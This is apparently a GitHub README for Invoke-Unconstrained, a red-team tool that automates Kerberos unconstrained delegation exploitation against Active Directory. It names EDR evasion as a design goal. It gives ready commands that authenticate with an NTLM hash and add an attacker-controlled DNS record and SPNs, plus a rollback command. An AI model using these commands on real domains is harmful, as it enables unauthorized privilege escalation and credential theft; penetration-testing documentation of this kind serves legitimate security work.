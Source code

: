 # Invoke-Unconstrained  
The Invoke-Unconstrained tool automates the exploitation of a compromised machine with unconstrained delegation.

The idea of this tool is to fully automate the exploitation of unconstrained delegation without relying on domain joined machines in order to avoid EDRs or XDRs.  
Several ways can be used to accomplish this task, but they have many steps and are complicated to understand, so the purpose of that tool is to automate the whole steps to compromise a machine using unconstrained delegation issue.  
Additionally, a snapshot of the old state is created to revert changes after the exploitation process.  
This Invoke-Unconstrained tool is based on the `impacket` library which allows attacker to launch that tool from linux-based OS, and also support the same default authentication methods as configured on the impacket library.

### How to Use  
The tool supports multiple authentication methods, including plain-text passwords, NTLM hashes, and Kerberos tickets.


#### General Arguments:  
`-u` - Specify username (The domain should be provided with a backslash, e.g., `LAB\DEG$`).  
`-t` - Specify Vunlerable target.  
`-ah` - Specify a non-exists DNS record that will be point to the attacker-controlled IP Address.  
`-aip` - Specify the controlled attacker IP address that will be added under the attacker's DNS record. 
`-p` - Specify plaintext/NTLM password matched to the username.  
`-k` - Force Kerberos authentication.

Sucessfull output will look as follows:  

The following proof of concept illustrates performing unconstrained delegation attack using NTLM hash using the DEG machine account on the lab domain:  
During the automation process, the tool creates a new DNS record controlled by the attacker (`ATT28.labs.local` -> `10.0.0.12`) to the domain controller (`10.0.0.5`).  
This automation involves LDAP authentication, afterwards, the tool adds new SPNs according to the newly-created DNS record (the `ATT28` attacker host which was added to the `msds-additionaldnshostname` attribute of the `DEG$` machine account).

  
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -t DEG$ -ah ATT28.labs.local -aip 10.0.0.12  10.0.0.5
```
![image](https://github.com/ScorpionesLabs/Invoke-Unconstrained/assets/50461376/a16d91e3-ac86-483e-a8fc-f94c0bfc84f4)

#### Reverting Changes:
We as red teamers believe the cleanup process is important to restoring the victim network to its original state prior to the attack, therefore, the Invoke-Unconstrained tool will roll back all changes made by the tool after escalating our privileges.  

The following example shows how to rollback changes that performed on the victim user to the original state.
```
Invoke-unconstrained.py -u LABS\DEG$ -p aad3b435b51404eeaad3b435b51404ee:fd8d7a6f868dc2d81aaf3eb3a9ea6adc -r .\DEG-2023-10-17--18-20-42.961041 10.0.0.5
```

As can be seen above, on each exploitation, a state file is created which shows that changes made that needs to reverted, including target, SPNs, and DNS records added.  

#### Full Exploitation: 


### Credits

1. Omri Baso From [Scorpiones Labs](https://www.scorpiones.io/).  
2. Some of the code snippets were taken from the [krbrelayx](https://github.com/dirkjanm/krbrelayx/tree/master) Project.  
